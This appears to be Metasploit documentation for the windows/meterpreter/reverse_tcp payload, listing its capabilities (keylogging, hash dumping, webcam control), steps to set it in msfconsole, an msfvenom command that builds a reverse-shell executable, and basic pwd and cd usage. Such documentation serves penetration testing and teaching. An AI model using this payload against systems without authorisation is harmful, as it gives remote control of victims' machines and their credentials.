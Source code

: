 windows/meterpreter/reverse_tcp is one of the most powerful features the Metasploit Framework has
to offer, and there are so many things you can do with it.

It allows you to remotely control the file system, sniff, keylog, hashdump, perform network pivoting,
control the webcam and microphone, etc. It has the best support for post modules, and you can
load extensions, such as mimikatz and python interpreter, etc.

windows/meterpreter/reverse_tcp is also the default payload for all Windows exploit targets.

## Vulnerable Application

This Meterpreter payload is suitable for the following environments:

* Windows x64
* Windows x86

## Verification Steps

windows/meterpreter/reverse_tcp is typically used in two different ways.

First, it is typically used as a payload for an exploit. Here's how to do that:

1. In msfconsole, select an exploit module
2. Configure the options for that exploit.
3. Do: ```set payload windows/meterpreter/reverse_tcp```
4. Set the ```LHOST``` option, which is the IP that the payload should connect to.
5. Do: ```exploit```. If the exploit is successful, it should execute that payload.

Another way to use windows/meterpreter/reverse_tcp is to generate it as an executable. Normally,
you would want to do it with msfvenom. If you are old school, you have probably also heard of
msfpayload and msfencode. msfvenom is a replacement of those.

The following is a basic example of using msfvenom to to generate windows/meterpreter/reverse_tcp
as an executable:

```
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f exe -o /tmp/payload.exe
```

## Important Basic Commands

**pwd command**

The ```pwd``` command allows you to see the current directory you're in on the remote target.
Example:

```
meterpreter > pwd
C:\Users\user\Desktop
```

**cd command**

The ```cd``` command allows you to change directories. Example:

```
meterpreter > cd C:\\
meterpreter > pwd
C:\
```
